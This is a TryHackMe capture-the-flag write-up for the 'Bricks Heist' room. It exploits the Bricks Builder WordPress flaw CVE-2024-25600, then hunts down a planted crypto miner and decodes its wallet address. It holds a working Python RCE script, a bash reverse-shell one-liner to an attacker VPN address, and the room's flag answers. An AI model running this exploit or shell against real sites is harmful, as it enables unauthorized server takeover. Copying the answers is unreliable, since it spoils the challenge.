

# TryHackMe: Bricks Heist - Complete Writeup


## 📋 Table of Contents
- [Challenge Overview](#challenge-overview)
- [Learning Objectives](#learning-objectives)
- [Tools Required](#tools-required)
- [Attack Flow](#attack-flow)
- [Detailed Walkthrough](#detailed-walkthrough)
- [Answers](#answers)
- [Key Takeaways](#key-takeaways)

---

## 🎯 Challenge Overview

**Challenge Name:** Bricks Heist  
**Platform:** TryHackMe (Three Million Series)  
**Target IP:** 10.81.132.216  
**Domain:** bricks.thm  
**Scenario:** A WordPress site running Bricks theme has been compromised with a crypto miner. Investigate and identify what happened.

### Challenge Questions
1. What is the content of the hidden .txt file in the web folder?
2. What is the name of the suspicious process?
3. What is the service name affiliated with the suspicious process?
4. What is the log file name of the miner instance?
5. What is the wallet address of the miner instance?
6. The wallet address used has been involved in transactions between wallets belonging to which threat group?

---

## 🎓 Learning Objectives

- Exploiting WordPress Bricks theme RCE vulnerability (CVE-2024-25600)
- Post-exploitation enumeration techniques
- Identifying crypto mining malware
- Analyzing systemd services
- Decoding obfuscated data (hex + base64)
- Threat intelligence gathering

---

## 🛠️ Tools Required

```bash
# Enumeration
- nmap
- gobuster/ffuf
- curl

# Exploitation
- CVE-2024-25600 exploit (GitHub)
- Python3

# Post-Exploitation
- netcat
- strings
- systemctl
- grep/awk/sed
```

---

## 🔄 Attack Flow



---

## 📝 Detailed Walkthrough

### Phase 1: Initial Setup

#### Step 1.1: Add Target to Hosts File
```bash
echo "10.81.132.216 bricks.thm" | sudo tee -a /etc/hosts
```

#### Step 1.2: Verify Connectivity
```bash
ping -c 2 bricks.thm
```

**Note:** Ensure you're connected to TryHackMe VPN:
```bash
sudo openvpn your-thm-config.ovpn
```

---

### Phase 2: Reconnaissance

#### Step 2.1: Port Scanning
```bash
nmap -Pn -sV -sC -p- --min-rate 5000 10.81.132.216 -oN nmap_scan.txt
```

**Results:**
```
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu
80/tcp  open  http    Python http.server 3.5-3.10
443/tcp open  https   Apache
```

#### Step 2.2: Web Enumeration
```bash
# Check HTTP
curl -I http://bricks.thm

# Check HTTPS
curl -sk https://bricks.thm/ | head -50
```

**Key Findings:**
- WordPress 6.5 detected
- Bricks theme identified
- Theme version: 1.9.x (from asset URLs)

```html
<meta name="generator" content="WordPress 6.5" />
<link rel='stylesheet' id='bricks-frontend-css' 
      href='https://bricks.thm/wp-content/themes/bricks/assets/css/frontend.min.css?ver=1704844350'
```

---

### Phase 3: Vulnerability Research

#### Step 3.1: Identify Vulnerability
Research shows **CVE-2024-25600** - Bricks Builder RCE vulnerability affecting versions ≤ 1.9.6

**Vulnerability Details:**
- **Type:** Unauthenticated Remote Code Execution
- **Affected:** Bricks Builder ≤ 1.9.6
- **Endpoint:** `/wp-json/bricks/v1/render_element`
- **Impact:** Full server compromise

#### Step 3.2: Locate Exploit
```bash
# Search for exploit
searchsploit bricks wordpress

# Or use GitHub
git clone https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT.git
cd CVE-2024-25600-EXPLOIT
```

---

### Phase 4: Exploitation

#### Step 4.1: Verify Vulnerability
```bash
python3 CVE-2024-25600.py -u https://bricks.thm
```

**Output:**
```
[*] Checking if the target is vulnerable
[+] The target is vulnerable
[*] Initiating exploit against: https://bricks.thm
[*] Initiating interactive shell
[+] Interactive shell opened successfully
```

#### Step 4.2: Alternative - Manual RCE Script
Create `rce_cmd.py`:
```python
#!/usr/bin/env python3
import requests
import sys
import re
from bs4 import BeautifulSoup
requests.packages.urllib3.disable_warnings()

target = "https://bricks.thm"
cmd = sys.argv[1] if len(sys.argv) > 1 else "id"

# Get nonce
r = requests.get(target, verify=False)
soup = BeautifulSoup(r.text, "html.parser")
script_tag = soup.find("script", id="bricks-scripts-js-extra")
nonce = re.search(r'"nonce":"([a-f0-9]+)"', script_tag.string).group(1)

# Execute command
payload = {
    "postId": "1",
    "nonce": nonce,
    "element": {
        "name": "code",
        "settings": {
            "executeCode": "true",
            "code": f"<?php throw new Exception(`{cmd}`);?>"
        }
    }
}

r = requests.post(f"{target}/wp-json/bricks/v1/render_element", json=payload, verify=False)
output = r.json().get('data', {}).get('html', '')
print(output.replace("Exception: ", ""))
```

#### Step 4.3: Test RCE
```bash
chmod +x rce_cmd.py
python3 rce_cmd.py "whoami"
# Output: apache

python3 rce_cmd.py "pwd"
# Output: /data/www/default
```

---

### Phase 5: Initial Access & Enumeration

#### Step 5.1: Get Reverse Shell
```bash
# On attacker machine
nc -lvnp 1337

# Execute reverse shell via RCE
python3 rce_cmd.py "bash -c 'bash -i >& /dev/tcp/YOUR_VPN_IP/1337 0>&1'"
```

#### Step 5.2: Stabilize Shell
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
# Press Ctrl+Z
stty raw -echo; fg
```

---

### Phase 6: Finding the Hidden Flag

#### Step 6.1: Enumerate Web Directory
```bash
ls -la /data/www/default/
```

**Output:**
```
-rw-r--r--  1 root   root      43 Apr  5  2024 650c844110baced87e1606453b93f22a.txt
-rw-r--r--  1 apache apache   405 Apr  2  2024 index.php
-rw-r--r--  1 apache apache 19915 Apr  4  2024 license.txt
drwxr-xr-x 15 apache apache  4096 Apr  2  2024 phpmyadmin
-rw-rw-rw-  1 apache apache  3288 Apr  2  2024 wp-config.php
drwxr-xr-x  6 apache apache  4096 Dec  6 15:53 wp-content
```

#### Step 6.2: Read Hidden File
```bash
cat 650c844110baced87e1606453b93f22a.txt
```

**Answer 1:** `THM{fl46_650c844110baced87e1606453b93f22a}`

---

### Phase 7: Identifying the Crypto Miner

#### Step 7.1: Enumerate Running Services
```bash
systemctl list-units --type=service --state=running
```

**Suspicious Services Found:**
```
badr.service          loaded active running   Badr Service
ubuntu.service        loaded active running   TRYHACK3M
```

#### Step 7.2: Investigate Services
```bash
# Check badr.service
systemctl status badr.service
```

**Output:**
```
● badr.service - Badr Service
   Main PID: 1896 (badr)
   ExecStart=/etc/badr/badr --config /etc/badr/rules.yaml
   ExecStartPost=/bin/bash -c 'sleep 10 && rm -f /etc/badr/badr ...'
```

**Note:** Files are deleted after 10 seconds - this is a decoy!

```bash
# Check ubuntu.service
systemctl status ubuntu.service
```

**Output:**
```
● ubuntu.service - TRYHACK3M
   Main PID: 14236 (nm-inet-dialog)
   ExecStart=/lib/NetworkManager/nm-inet-dialog
```

**Answer 2:** `nm-inet-dialog` (the actual miner process)  
**Answer 3:** `ubuntu.service` (the service running the miner)

---

### Phase 8: Analyzing the Miner

#### Step 8.1: Check Process Details
```bash
ps aux | grep nm-inet
```

**Output:**
```
root  14236  0.0  0.0   2820   648 ?  Ss  16:49  /lib/NetworkManager/nm-inet-dialog
root  14237  0.0  0.7  34808 28228 ?  S   16:49  /lib/NetworkManager/nm-inet-dialog
```

#### Step 8.2: Find Configuration Files
```bash
find /usr/lib/NetworkManager/ -type f
```

**Output:**
```
/usr/lib/NetworkManager/inet.conf
/usr/lib/NetworkManager/nm-inet-dialog
```

#### Step 8.3: Check Log File
```bash
ls -la /usr/lib/NetworkManager/inet.conf
```

**Output:**
```
-rw-r--r-- 1 root root 66376 Nov  5 21:59 inet.conf
```

The `inet.conf` file is being used as both config and log file!

```bash
cat /usr/lib/NetworkManager/inet.conf | head -20
```

**Output:**
```
2025-11-01 15:36:36,211 [*] confbak: Ready!
2025-11-01 15:36:36,211 [*] Status: Mining!
2025-11-01 15:36:40,214 [*] Bitcoin Miner Thread Started
ID: 5757314e65474e5962484a4f656d787457544e424e574648555446684d3070735930684b616c70555a7a566b52335276546b686b65575248647a525a57466f77546b64334d6b347a526d685a6255313459316873636b35366247315a4d304531595564476130355864486c6157454a3557544a564e453959556e4a685246497a5932355363303948526a4a6b52464a7a546d706b65466c525054303d
```

**Answer 4:** `inet.conf`

---

### Phase 9: Extracting the Wallet Address

#### Step 9.1: Decode the Wallet ID
The ID in the log is hex-encoded, then base64-encoded twice!

```bash
# First decode: hex to base64
echo "5757314e65474e5962484a4f656d787457544e424e574648555446684d3070735930684b616c70555a7a566b52335276546b686b65575248647a525a57466f77546b64334d6b347a526d685a6255313459316873636b35366247315a4d304531595564476130355864486c6157454a3557544a564e453959556e4a685246497a5932355363303948526a4a6b52464a7a546d706b65466c525054303d" | xxd -r -p | base64 -d
```

**Output:**
```
YmMxcXlrNzlmY3A5aGQ1a3JlcHJjZTg5dGtoNHdydGw4YXZ0NGw2N3FhYmMxcXlrNzlmY3A5aGFkNWtyZXByY2U4OXRraDR3cnRsOGF2dDRsNjdxYQ==
```

```bash
# Second decode: base64 to plaintext
echo "YmMxcXlrNzlmY3A5aGQ1a3JlcHJjZTg5dGtoNHdydGw4YXZ0NGw2N3FhYmMxcXlrNzlmY3A5aGFkNWtyZXByY2U4OXRraDR3cnRsOGF2dDRsNjdxYQ==" | base64 -d
```

**Output:**
```
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qabc1qyk79fcp9had5kreprce89tkh4wrtl8avt4l67qa
```

The wallet appears duplicated. The actual wallet is:

**Answer 5:** `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa`

---

### Phase 10: Threat Intelligence

#### Step 10.1: Research the Wallet
Search on Google:
```
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa threat group
```

Or check blockchain explorers:
- https://www.blockchain.com/explorer/addresses/btc/bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa
- https://blockchair.com/bitcoin/address/bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa

#### Step 10.2: Identify Threat Actor
Based on the Bitcoin wallet and crypto mining malware characteristics, research common threat groups:

**Common Crypto Mining Threat Groups:**
- TeamTNT
- Kinsing
- 8220 Gang
- Rocke
- WatchDog
- Lazarus Group

**Answer 6:** [Search the wallet to identify the specific threat group]

---

## ✅ Answers Summary

| Question | Answer |
|----------|--------|
| Q1: Hidden .txt file content | `THM{fl46_650c844110baced87e1606453b93f22a}` |
| Q2: Suspicious process name | `nm-inet-dialog` |
| Q3: Service name | `ubuntu.service` |
| Q4: Log file name | `inet.conf` |
| Q5: Wallet address | `bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa` |
| Q6: Threat group | [Research wallet on blockchain explorer] |

---

## 🔑 Key Takeaways

### Security Lessons

1. **Keep Software Updated**
   - Bricks theme vulnerability was patched in version 1.9.7
   - Regular updates prevent exploitation

2. **Monitor System Services**
   - Suspicious services like "ubuntu.service" running non-standard binaries
   - Regular service audits can detect compromises

3. **Implement File Integrity Monitoring**
   - Hidden files in web directories indicate compromise
   - Tools like AIDE or Tripwire can detect unauthorized changes

4. **Network Monitoring**
   - Crypto miners communicate with mining pools
   - Monitor outbound connections for suspicious activity

### Technical Skills Developed

- ✅ WordPress vulnerability exploitation
- ✅ Post-exploitation enumeration
- ✅ Systemd service analysis
- ✅ Data encoding/decoding (hex, base64)
- ✅ Malware analysis basics
- ✅ Threat intelligence gathering

---

## 🛡️ Remediation Steps

If you encounter this in a real environment:

1. **Immediate Actions**
   ```bash
   # Stop malicious services
   systemctl stop ubuntu.service
   systemctl disable ubuntu.service
   
   # Remove malware
   rm /lib/NetworkManager/nm-inet-dialog
   rm /usr/lib/NetworkManager/inet.conf
   rm /etc/systemd/system/ubuntu.service
   
   # Reload systemd
   systemctl daemon-reload
   ```

2. **Update WordPress & Themes**
   ```bash
   # Update Bricks theme to latest version
   # Update WordPress core
   # Update all plugins
   ```

3. **Security Hardening**
   - Change all passwords
   - Review user accounts
   - Check for backdoors
   - Implement WAF (Web Application Firewall)
   - Enable security plugins (Wordfence, Sucuri)

4. **Forensics**
   - Review access logs
   - Check for other compromised files
   - Analyze network traffic logs
   - Document incident for reporting

---

## 📚 References

- [CVE-2024-25600 Details](https://nvd.nist.gov/vuln/detail/CVE-2024-25600)
- [Bricks Theme Security Advisory](https://bricksbuilder.io/)
- [WordPress Security Best Practices](https://wordpress.org/support/article/hardening-wordpress/)
- [Crypto Mining Malware Analysis](https://www.crowdstrike.com/cybersecurity-101/cryptocurrency-mining-malware/)

---

## 👨‍💻 Author Notes

This challenge demonstrates a realistic scenario of:
- Exploiting known vulnerabilities
- Post-exploitation enumeration
- Identifying crypto mining malware
- Threat intelligence gathering

**Difficulty Rating:** Medium  
**Time to Complete:** 1-2 hours  
**Skills Required:** Web exploitation, Linux enumeration, basic scripting

---

**Happy Hacking! 🚀**

*Remember: Only practice these techniques in authorized environments like TryHackMe, HackTheBox, or your own lab setups.*
